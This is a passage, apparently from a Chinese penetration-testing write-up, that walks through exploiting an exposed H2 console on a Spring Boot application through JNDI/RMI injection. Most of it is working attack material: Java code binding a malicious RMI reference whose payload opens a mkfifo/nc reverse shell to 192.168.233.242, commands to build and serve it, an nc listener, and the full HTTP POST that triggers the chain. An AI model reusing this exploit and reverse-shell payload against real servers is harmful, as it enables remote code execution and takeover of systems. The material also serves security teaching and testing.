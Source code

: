 ```
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.233.242 1234 >/tmp/f']).start()\")"));
         
        
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```



将该代码进行maven打包

```
mvn install
```

![image-20210830204556955](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830204556955.png)



然后指定访问ip地址开启RMI服务

```
java -Djava.rmi.server.hostname=192.168.233.242 -jar RMIServer-0.1.0.jar
```

![image-20210830204855751](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830204855751.png)



使用nc监听端口

```
nc -lvvp 1234
```



构造Post方式请求/h2-console/login.do?session=xxxx，请求报文中指定RMI服务的ip地址和端口

请求报文如下:

```
POST /h2-console/login.do?jsessionid=152896463738fcc39cb0a74a0e3b5a1e HTTP/1.1
Host: 192.168.233.242:9096
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.233.242:9096/h2-console/login.jsp?jsessionid=10f21eec1f912ae36cd39c55740101b5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 163

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=rmi://192.168.233.242:8090/jndi&user=&password=
```
